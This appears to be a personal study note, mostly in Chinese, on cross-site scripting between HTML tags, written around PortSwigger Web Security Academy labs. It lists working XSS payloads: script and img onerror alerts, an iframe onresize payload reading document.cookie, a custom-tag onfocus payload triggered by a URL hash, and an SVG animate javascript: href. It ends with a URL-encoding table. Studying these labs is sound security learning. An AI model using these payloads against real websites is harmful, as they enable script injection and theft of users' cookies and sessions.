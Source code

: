 - The location 
- Identify the input validation 

## XSS between HTML tags

当XSS上下文是HTML标记之间的文本时，需要引入一些新的HTML标记来触发JavaScript的执行。

like:

```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

```html
lab3：
test for tags <§§>
then events<{tested-tag}%20=1>

payload：
<iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'>

lab4:
<script>
location='https://aca41f051f857f6380272f4d005d00ef.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>

original
<script>
location='https://aca41f051f857f6380272f4d005d00ef.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
##此注入创建一个ID为x的自定义标记，其中包含一个触发警报函数的onfocus事件处理程序。加载页面后，URL末尾的hash(#)会立即focuses on this element，从而调用警报负载。
    
lab5：
search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text>Click me</text></a>
```

| %3c           | <                                                            |
| ------------- | ------------------------------------------------------------ |
| %3e           | >                                                            |
| %3D           | =                                                            |
| %28           | (                                                            |
| %29           | )                                                            |
| attributeName | 这个属性指定在动画期间父元素中将要改变的属性的名称。 （在svg下面） |

## XSS in HTML tag attributes
